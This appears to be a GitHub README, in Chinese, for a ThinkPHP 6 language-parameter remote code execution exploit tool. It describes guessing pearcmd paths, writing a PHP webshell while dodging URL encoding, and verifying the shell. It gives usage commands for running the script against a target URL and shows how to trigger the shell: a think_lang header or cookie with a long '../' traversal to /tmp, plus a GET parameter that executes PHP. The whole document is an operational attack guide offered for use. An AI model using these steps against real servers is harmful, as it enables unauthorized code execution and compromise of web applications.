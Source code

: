 # thinkphp_Lang_exp
thinkphp6 Lang RCE exp


### 说明
猜解常用pearcmd路径

解决GET请求时写入webshell 特殊字符自动编码问题，造成找不到有效　<?php 标记 ，文件将无法解析。
如：< >编码 %3c%3e 

验证webshell有效性


### 使用方法：

```bash
#默认
python3 thinkphp_Lang_exp.py -u http://xxxx/index.php

#自定义
python3 thinkphp_Lang_exp.py -u http://xxxx/index.php -m ../../pearcmd_path -p /tmp/shell.php
```

### 利用
**GET连接shell**

get: http://url/?1=phpinfo()

设置请求头:
```
think_lang: ../../../../../../../../../../../tmp/eeew
#or
Cookie: think_lang=../../../../../../../../../../../tmp/eeew
```


**POST连接shell**
参考exp

### 分析文章：

https://mp.weixin.qq.com/s/GWZ_X_jFdrq5TQW2otSL5Q
